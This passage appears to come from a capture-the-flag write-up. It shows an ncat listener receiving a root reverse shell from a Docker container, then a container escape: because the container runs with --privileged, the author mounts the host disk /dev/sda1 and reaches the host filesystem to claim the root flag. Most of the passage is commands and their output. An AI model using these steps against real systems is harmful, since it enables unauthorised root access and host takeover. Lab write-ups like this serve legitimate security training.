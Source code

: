 And Again I used one of the container to get shell.

```bash
$ ./ncat -lnvp 9001
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 172.20.0.2.
Ncat: Connection from 172.20.0.2:57536.
bash: cannot set terminal process group (2045): Inappropriate ioctl for device
bash: no job control in this shell
root@backup:~# whoami;hostname
whoami;hostname
root
backup
```

There is a misconfiguration that can come with docker is running with `--privileged`. I have access to the disks.

```bash
root@backup:/dev# ls
ls
agpgart
autofs
.
.
.
sda
sda1
sda2
sda3
sda4
sda5
sg0
sg1
shm
snapshot
snd
sr0
```

I just mounted sda1 and I get system access. Got Root Flag.

```bash
root@backup:/dev# mount /dev/sda1 /mnt
mount /dev/sda1 /mnt
root@backup:/dev# cd /mnt
cd /mnt
root@backup:/mnt# ls
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
```